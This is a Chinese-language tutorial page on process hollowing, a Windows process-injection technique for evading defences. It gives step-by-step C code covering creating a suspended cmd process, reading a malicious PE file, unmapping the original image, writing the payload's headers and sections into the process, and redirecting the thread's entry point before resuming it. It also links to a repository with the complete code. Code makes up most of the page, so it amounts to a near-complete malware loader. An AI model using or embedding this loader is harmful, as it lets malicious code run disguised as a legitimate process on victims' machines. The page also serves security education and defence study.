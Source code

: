 ```yaml
---
description: 进程镂空
---
```


# Process Hollowing

## Process Hollowing简介

进程镂空是一种防御规避的进程注入技术,主要思想是卸载合法进程的内存，写入恶意软件的代码，伪装成合法进程进行恶意活动。

![](../.gitbook/assets/process-hollowing.gif)

## 执行流程

1. 创建一个挂起的合法进程
2. 读取恶意软件的代码
3. 获取挂起进程上下文与环境信息
4. 卸载挂起进程内存
5. 写入恶意软件代码
6. 恢复挂起进程

## 代码实现

### 1.创建一个挂起的合法进程

```text
	BOOL bRet = CreateProcessA(
		NULL,
		(LPSTR)"cmd",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED,
		NULL,
		NULL,
		&si,
		&pi);
```

### 2.读取恶意软件的代码

```text
	hFile = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	dwFileSize = GetFileSize(hFile, NULL); //获取替换可执行文件的大小
	FileImage = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE); 
	ReadFile(hFile, FileImage, dwFileSize, &FileReadSize, NULL);
	CloseHandle(hFile);
```

### 3.获取挂起进程上下文与环境信息

 **进程环境块**（**PEB**）是 Windows NT操作系统内部使用的数据结构，用以存储每个进程的运行时数据，每个进程又有一个独立且由操作系统进行维护的PEB。

挂起创建的进程的EBX&RDX寄存器存储着PEB,而PEB内存储着进程的实际加载地址。

```text

	GetThreadContext(pi.hThread, &ctx); //获取挂起进程上下文

#ifdef _WIN64
	ReadVirtualMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
	// 从rbx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#endif
	// 从ebx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#ifdef _X86_
	ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL); 
#endif
```

### 4.卸载挂起进程内存

如果恶意软件预期加载地址被占用，就使用ntdll内的NtUnmapViewOfSection函数卸载软件内存,该函数也是freelibrary等函数真正卸载内存使用的函数。

```text
	//判断文件预期加载地址是否被占用
	pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection");
	if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase) 
	{
		NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); //卸载已存在文件
	}
```

### 5.写入恶意软件代码

将恶意软件写入合法进程的空间,先写入文件头后逐段写入。

```text

	//为可执行映像分配内存,并写入文件头
	RemoteProcessMemory = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); 
	WriteProcessMemory(pi.hProcess, RemoteProcessMemory, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL); 

	//逐段写入
	for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
	{
		pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
		WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)RemoteProcessMemory + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL); 
	}

```

### 6.恢复挂起进程

挂起创建的进程rcx&eax内存储着软件的入口点,需要将PEB内的实际加载地址修改为恶意软件预期的加载地址。

```text
//将rcx寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _WIN64
	ctx.Rcx = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); 
	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif

	//将eax寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _X86_
	ctx.Eax = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); // Set the eax register to the entry point of the injected FileImage

	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif


	SetThreadContext(pi.hThread, &ctx); // 设置线程上下文
	ResumeThread(pi.hThread); // 恢复挂起线程

```

#### \* 实现效果

![](../.gitbook/assets/image%20%2855%29.png)

## 完整代码

* github:[https://github.com/idiotc4t/ProcessHollow.git](https://github.com/idiotc4t/ProcessHollow.git)

## LINKS

{% embed url="https://www.elastic.co/cn/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process" %}

{% embed url="https://attack.mitre.org/techniques/T1093/" %}



